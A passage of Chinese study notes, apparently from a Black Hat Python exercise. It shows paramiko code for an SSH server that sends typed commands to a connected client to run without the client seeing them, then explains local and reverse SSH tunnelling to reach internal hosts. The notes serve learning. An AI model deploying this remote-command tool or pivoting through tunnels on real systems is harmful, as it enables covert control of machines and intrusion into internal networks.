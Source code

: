 ```python
    bhSession = paramiko.Transport(client)
    #添加一个RSA密钥加密会话
    bhSession.add_server_key(host_key)
    server = Server()
    try:
    #启动SSH服务端
        bhSession.start_server(server=server)
    except paramiko.SSHException, x:
        print '[-] SSH negotiation failed'
	#设置超时值为20
    chan = bhSession.accept(20)
    print '[+] Authenticated!'
    print chan.recv(1024)
    chan.send("Welcome to bh_ssh")
    while True:
        try:
			#strip移除字符串头尾指定的字符（默认为空格）,这里是换行
            command = raw_input("Enter command:").strip("\n")
            if command != 'exit':
                chan.send(command)
                print chan.recv(1024) + '\n'
            else:
                chan.send('exit')
                print 'exiting'
                bhSession.close()
                raise Exception('exit')
        except KeyboardInterrupt:
            bhSession.close()
except Exception, e:
    print '[-] Caught exception: ' + str(e)
    try:
        bhSession.close()
    except:
        pass
    sys.exit(1)
```
运行服务器端代码
> python2 bh_sshserver.py** ** 127.0.0.1 8080

运行客户端代码
> python2 bh_sshRcmd.py

![SSH.png](https://cdn.nlark.com/yuque/0/2021/png/5370867/1610806654875-d068d3c2-c614-40d6-a0ab-9b652dc45339.png#align=left&display=inline&height=358&margin=%5Bobject%20Object%5D&name=SSH.png&originHeight=358&originWidth=1138&size=116097&status=done&style=none&width=1138)
可以观察上图，客户端成功连接后，执行了一条命令，虽然在客户端看不到任何情况，但是命令已经在客户端执行了并且将结果返回给SSH服务端了。
## SSH隧道
> 当使用SSH隧道时，与传统的将命令直接发送给服务端不同，网络流量包在SSH中封装后发送，并且在到达SSH服务器之后解开并执行。

假设可以访问一台在内网中的SSH服务器，还想要访问在同一网端中的Web服务器，但是不能直接访问Web服务器，SSH服务器可以直接访问Web服务器，这时候就需要创建一个转发的SSH隧道
```python
ssh -L 8008:web:80 lemon@sshserver
```
![SSH1.png](https://cdn.nlark.com/yuque/0/2021/png/5370867/1610806666383-98d14f49-a6fe-46ae-a3a4-13c112b871b5.png#align=left&display=inline&height=357&margin=%5Bobject%20Object%5D&name=SSH1.png&originHeight=357&originWidth=698&size=81164&status=done&style=none&width=698)
使用命令以lemon用户的身份连接到SSH服务端，同时将在本地系统上监听8008端口建立转发。任何发送到本机8008端口上的数据将被通过已有的SSH隧道转发到Web服务器.但是大部分Windows系统都不运行SSH服务，可以配置一个反向的SSH隧道连接。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/5370867/1610807269219-fe19b266-ee1b-4dc3-93f1-25dee0e34995.png#align=left&display=inline&height=389&margin=%5Bobject%20Object%5D&name=image.png&originHeight=389&originWidth=657&size=106670&status=done&style=none&width=657)
在SSH服务端监听一个端口，这个端口将数据通过SSH隧道发送到目标网段的主机和端口上。

